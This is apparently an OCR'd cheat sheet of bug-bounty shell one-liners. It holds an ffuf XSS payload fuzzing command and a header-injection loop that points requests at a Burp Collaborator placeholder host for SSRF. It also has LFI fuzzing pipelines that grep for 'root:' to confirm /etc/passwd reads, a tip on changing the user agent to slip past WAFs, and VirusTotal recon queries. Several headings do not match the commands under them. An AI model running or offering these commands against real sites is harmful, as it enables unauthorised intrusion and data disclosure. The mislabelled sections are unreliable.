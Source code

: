 # FFUF request file method - part 1
```
ffuf -request xss -request-proto https -w /root/wordlists/xss-payloads.txt -c -mr '<script>alert('XSS')</script>'
```
# FFUF request file method - part 2
```
cat domains.txt | assetfinder --subs-only| httprobe | while read url; do xss1=$(curl -s -L $url -H 'X-Forwarded-For: xss.yourburpcollabrotor'|grep xss) xss2=$(curl -s -L $url -H 'X-Forwarded-Host: xss.yourburpcollabrotor'|grep xss) xss3=$(curl -s -L $url -H 'Host: xss.yourburpcollabrotor'|grep xss) xss4=$(curl -s -L $url --request-target http://burpcollaborator/ --max-time 2); echo -e '\e[1;32m$url\e[0m''\n''Method[1] X-Forwarded-For: xss+ssrf => $xss1''\n''Method[2] X-Forwarded-Host: xss+ssrf ==> $xss2''\n''Method[3] Host: xss+ssrf ==> $xss3''\n''Method[4] GET http://xss.yourburpcollabrotor HTTP/1.1 ''\n';done
```

# Try this amazingg LFI oneliner its veryfast and effective also change ffuf useragent so its dont get blocked by waf's
```
waymore -i "" -n -mode U | gf lfi | sed 's/=.*/=/' | qsreplace "FUZZ" | sort -u | while read urls; do ffuf -u $urls -w payloads/lfi.txt -c -mr "root:" -v; done
```
```
waymore -i "" -n -mode U | gf lfi | sed 's/=.*/=/' | qsreplace "FUZZ" | sort -u | tee testphp.vulnweb.com.lfi.txt
```
```
cat testphp.vulnweb.com.lfi.txt | while read urls; do ffuf -u $urls -w payloads/lfi.txt -c -mr "root:" -v; done
```
# XSS and SSRF testing with headers
```
echo 'https://example.com/index.php?page=' | httpx-toolkit -paths payloads/lfi.txt -threads 50 -random-agent -mc 200 -mr 'root:(x|\*|\$[^\:]*):0:0:'
```
# LFI methodology - alternative method

# Gather assets through API
```
https://www.virustotal.com/vtapi/v2/domain/report?apikey=<api_key>&domain=<DOMAIN>
```
```
curl -s "https://www.virustotal.com/vtapi/v2/domain/report?domain=<DOMAIN>&apikey=<api_key>" | jq -r '.. | .ip_address? // empty' | grep -Eo '([0-9]{1,3}\.){3}[0-9]{1,3}'
```
```
curl -s "https://www.virustotal.com/vtapi/v2/domain/report?apikey=<api_key>&domain=<DOMAIN>" | jq -r '.domain_siblings[]'
```
